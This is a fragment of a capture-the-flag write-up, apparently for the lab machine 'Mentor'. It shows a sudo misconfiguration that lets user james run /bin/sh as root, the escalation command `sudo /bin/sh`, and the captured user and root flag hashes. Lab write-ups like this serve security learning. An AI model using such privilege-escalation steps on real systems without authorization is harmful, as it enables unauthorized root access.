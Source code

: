 - If you run `sudo -l` right off the back you will find an immediate vector:

```bash
sudo -l
[sudo] password for james: 
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
```

- Run the proper command to access root!

```bash
sudo /bin/sh
```

- The flags:

```bash
cat /home/svc/user.txt

ecb1b440a47760320d882d2c38ec2355

cat /root/root.txt

b239ef0f0b10a3cf63562800a6d95f77
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230123062619.png)

- Happy hacking!

#hacking
